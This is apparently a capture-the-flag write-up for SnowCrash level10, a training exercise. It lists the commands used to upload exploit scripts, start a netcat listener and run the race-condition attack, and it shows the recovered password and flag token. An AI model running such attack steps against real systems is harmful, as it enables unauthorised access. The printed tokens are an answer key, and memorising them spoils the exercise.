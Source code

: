```
scp -r -P 4242 ./level10/resources  level10@10.13.200.28:/tmp
nc localhost 6969 -l
bash /tmp/resources/script_level10.sh
bash /tmp/resources/script_link.sh
```

```
level10@SnowCrash:~$ nc localhost 6969 -l
.*( )*.
woupa2yuojeeaaed06riuj63c
level10@SnowCrash:~$ su flag10
Password: 
Don't forget to launch getflag !
flag10@SnowCrash:~$ getflag
Check flag.Here is your token : feulo4b72j7edeahuete3no7c
```

Links:
* http://manpagesfr.free.fr/man/man2/access.2.html
